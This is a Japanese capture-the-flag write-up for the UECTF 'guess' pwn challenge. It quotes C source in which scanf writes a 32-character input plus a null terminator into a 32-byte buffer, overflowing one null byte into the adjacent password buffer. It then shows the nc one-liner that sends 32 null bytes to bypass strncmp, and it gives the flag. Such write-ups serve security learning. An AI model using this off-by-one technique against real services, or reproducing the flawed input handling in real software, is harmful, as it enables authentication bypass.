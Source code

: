 # guess:PWN:356pts
Please guess my password.  
私のパスワードを推測してください。  
※総当たりする必要はございません。そういった行為はお控えください。  

`nc uectf.uec.tokyo 9001`  

[chall](chall)　[main.c](main.c)　[flag.txt](flag.txt)　[secret.txt](secret.txt)  

Hint  
32文字入力すると`pw`はどうなりますか？  
※改行文字にご注意ください。（文字列を送信する際は`echo -en`等を使うことをお勧めします。）  

# Solution
接続先とソース一式が与えられる。  
main.cを見ると以下のようであった。  
```C
#include <stdio.h>
#include <string.h>

void win() {
    char flag[0x20];
    FILE *fp = fopen("flag.txt", "r");
    fgets(flag, 32, fp);
    puts(flag);
    fclose(fp);
}

void secret(char *s) {
    FILE *fp = fopen("secret.txt", "r");
    fgets(s, 32, fp);
    fclose(fp);
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char buf[32];
    char pw[32];

    secret(pw);

    printf("Guess my password\n> ");
    scanf("%32s", buf);
    if(strncmp(pw, buf, sizeof(pw)) == 0) {
        puts("Correct!!!");
        win();
    } else {
        puts("Wrong.");
    }
    return 0;
}
```
`strncmp`を突破すればフラグが表示されるようだ。  
ヌルバイト系だろうとあたりをつけ以下のようにローカルで遊んでいると刺さったが、リモートでは効果がない。  
```bash
$ python -c 'print("\x00" * 100)' | ./chall
Guess my password
> Correct!!!
flag{fake_flag}

$ python -c 'print("\x00" * 100)' | nc uectf.uec.tokyo 9001
Guess my password
> $
```
ここで`buf[32]`に32文字読み取っていることに気づく。  
scanfによって追加されたヌルバイトがはみ出し、`pw`を汚染することで、`buf`の先頭がヌルバイトであった場合、`strncmp`が0となる。  
以下のようにちょうどで行えばよい。  
```bash
$ python -c 'print("\x00" * 32, end="")' | nc uectf.uec.tokyo 9001
Guess my password
> Correct!!!
UECTF{Wow_are_you_Esper?}
```
flagが得られた。  

## UECTF{Wow_are_you_Esper?}